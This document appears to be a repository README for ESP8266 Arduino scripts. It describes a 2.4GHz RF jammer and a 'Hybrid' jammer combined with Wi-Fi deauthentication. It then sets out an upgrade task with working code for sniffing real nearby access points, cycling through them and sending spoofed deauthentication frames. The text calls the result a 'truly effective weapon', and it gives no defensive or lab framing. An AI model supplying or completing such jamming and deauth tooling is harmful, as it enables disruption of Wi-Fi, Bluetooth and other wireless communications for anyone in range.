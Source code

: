 # RF-Type Scripts: Code Guide & Improvement Task

## Overview

The scripts in this directory (`Pure.ino` and `Hybrid.ino`) are focused on **Layer 1 (physical-level) attacks**. Instead of manipulating protocols, they generate raw radio frequency (RF) noise to disrupt any and all communications on the 2.4GHz band. This makes them protocol-agnostic and highly effective against Wi-Fi, Bluetooth, Zigbee, and other wireless devices.

-   **`Pure.ino`** is a "smart" jammer that scans for the most active channels and focuses its attack on them.
-   **`Hybrid.ino`** combines this RF jamming with a Wi-Fi deauthentication attack, creating a powerful, dual-threat weapon.

## The Core Flaw: Hardcoded Deauthentication Target

The `Hybrid.ino` script is the most potent tool in this project, but its Wi-Fi attack component has a significant limitation: **it uses a hardcoded, fake MAC address** (`DE:AD:BE:EF:11:22`).

```cpp
// From Hybrid.ino
const uint8_t fakeAPmac[6] = {0xDE, 0xAD, 0xBE, 0xEF, 0x11, 0x22};

// ...

void loop() {
  // ...
  if (now - lastDeauth > 300) {
    // This always sends a deauth packet from the same fake AP.
    sendDeauthESP(broadcast, fakeAPmac);
    lastDeauth = now;
  }
}
```

While this proves the concept, it's not an effective real-world attack. A proper deauthentication attack must spoof the MAC address of a **real, nearby Access Point** to be successful.

---

## Your Task: Integrate a Real-Time AP Scanner

Your goal is to upgrade the `Hybrid.ino` script by integrating the dynamic, multi-target scanning capabilities from the `WiFi-Type` scripts. This will transform the deauthentication portion of the attack from a proof-of-concept into a truly effective weapon.

This involves three main steps:
1.  Adding a promiscuous mode sniffer to discover real APs.
2.  Maintaining a dynamic list of found APs.
3.  Modifying the main loop to cycle through the real APs and use their MAC addresses in the deauth attack.

### Step 1: Add AP Tracking Structures and Variables

In the global variables section of `Hybrid.ino`, add the necessary structures and arrays to store information about the APs you discover.

```cpp
// Add this to your global variables

#define MAX_APS 10 // Max number of Wi-Fi targets to track

struct APEntry {
  uint8_t mac[6];
  uint8_t channel;
  unsigned long lastSeen;
};

APEntry aps[MAX_APS];
uint8_t apCount = 0;
uint8_t currentAP = 0;
```

### Step 2: Implement the Promiscuous Sniffer Callback

You will need to add a `snifferCallback` function and enable promiscuous mode in your `setup()` function. This function will be responsible for parsing beacon frames and adding the discovered APs to your list.

**Hint:** You can copy the `snifferCallback` and `registerAP` functions directly from the `Multi-Iteration.ino` script in the `WiFi-Type` directory. Don't forget to enable promiscuous mode in `setup()`:

```cpp
// In setup()
wifi_set_opmode(STATION_MODE);
wifi_set_promiscuous_rx_cb(snifferCallback); // Register your new function
wifi_promiscuous_enable(1);
```

### Step 3: Modify the Deauthentication Logic

Finally, update the deauthentication logic inside your `loop()` function. Instead of sending a packet from the `fakeAPmac`, it should now cycle through your list of real APs, tune the radio to the correct channel, and send a deauth packet spoofing the real AP's MAC address.

Here is a template for the new logic:

```cpp
// In loop()

if (now - lastDeauth > 500 && apCount > 0) { // Check if we have targets
  if (currentAP >= apCount) currentAP = 0; // Cycle through targets

  // Get the current target AP
  APEntry& target = aps[currentAP];

  // Set the ESP8266 to the correct channel for the deauth attack
  wifi_set_channel(target.channel);

  // Send the deauth packet using the real AP's MAC address
  sendDeauthESP(broadcast, target.mac);

  Serial.printf("[HYBRID-DEAUTH] Sent deauth to %02X:%02X:%02X:%02X:%02X:%02X\n",
                target.mac[0], target.mac[1], target.mac[2],
                target.mac[3], target.mac[4], target.mac[5]);

  currentAP++;
  lastDeauth = now;
}
```

By completing this task, you will have transformed `Hybrid.ino` into a truly formidable and intelligent multi-vector attack tool, capable of launching adaptive Layer 1 and Layer 2 attacks simultaneously.
